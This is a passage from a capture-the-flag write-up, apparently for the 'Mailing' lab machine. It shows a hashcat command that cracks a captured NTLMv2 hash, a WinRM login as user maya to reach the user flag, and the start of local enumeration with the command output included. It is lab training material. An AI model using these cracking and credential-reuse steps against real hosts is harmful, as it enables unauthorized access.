 ![Untitled6](https://github.com/user-attachments/assets/65f9c1d3-652b-4e1d-a46a-94979a47cfd4)

NTLMv2 hashes cannot be passed, but we always can crack them (module 5600).
```markdown
> hashcat -m 5600 -a 0 -d 1 hash.txt .\rockyou.txt
```
Use the credentials to open a WinRM session on the host as user `maya`

![Untitled7](https://github.com/user-attachments/assets/ca448bb6-8a50-4a3f-8773-d740e17cd93e)

Which can be used to retrieve the user flag.

### ROOT
Start from the low-privileged WinRM session an take the opportunity to enumerate the user and the system.
```powershell
> whoami
mailing\maya

> net user maya
User name                    maya
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2024-04-12 4:16:20 AM
Password expires             Never
Password changeable          2024-04-12 4:16:20 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2024-09-06 5:40:15 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Usuarios
                             *Usuarios de escritori
Global Group memberships     *Ninguno
The command completed successfully.

> Get-ComputerInfo
WindowsBuildLabEx                                       : 19041.1.amd64fre.vb_release.191206-1406
WindowsCurrentVersion                                   : 6.3
WindowsEditionId                                        : Professional
WindowsInstallationType                                 : Client
WindowsInstallDateFromRegistry                          : 2/27/2024 3:26:14 PM
WindowsProductId                                        : 00330-80112-18556-AA447
WindowsProductName                                      : Windows 10 Pro
WindowsRegisteredOrganization                           :
WindowsRegisteredOwner                                  : localadmin
WindowsSystemRoot                                       : C:\Windows
WindowsVersion                                          : 2009
…
TimeZone                                                : (UTC+01:00) Brussels, Copenhagen, Madrid, Paris
LogonServer                                             : \\MAILING
PowerPlatformRole                                       : Desktop
```